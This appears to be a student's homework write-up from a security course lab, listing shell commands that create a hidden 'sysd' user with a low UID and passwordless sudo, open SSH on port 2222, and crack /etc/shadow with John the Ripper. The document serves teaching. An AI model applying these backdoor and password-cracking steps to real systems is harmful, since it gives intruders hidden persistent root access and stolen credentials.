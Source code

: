 ## Week 6 Homework: Advanced Bash - Owning the System
### Step 1: Shadow People
1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
* `adduser --no-create-home sysd`
2. Give your secret user a password:
* `sudo passwd sysd`
3. Give your secret user a system UID < 1000:
* `sudo usermod -u 200 sysd`
4. Give your secret user the same GID:
* `sudo groupmod -g 200 sysd`
5. Give your secret user full sudo access without the need for a password:
* `sudo visudo`
* #privilege specification
* `Sysd ALL=(ALL:ALL) NOPASSWD:ALL`
6. Test that sudo access works without your password:
* `sudo -l`
* `sudo su`

### Step 2: Smooth Sailing
1. Edit the sshd_config file:

[alt text](Proof_of_work.md/image2.png)

### Step 3: Testing Your Configuration Update
1. Restart the SSH service:
* `systemctl restart ssh.service`
2. Exit the root account:
* `exit`
3. SSH to the target machine using your sysd account and port 2222:
* `ssh sysd@192.168.6.105 -p 2222`
4. Use sudo to switch to the root user:
* `sudo su`

### Step 4: Crack All the Passwords
1. SSH back to the system using your sysd account and port 2222:
* `ssh sysd@192.168.6.105 -p 2222`
2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
* `sudo su`
* `john /etc/shadow`
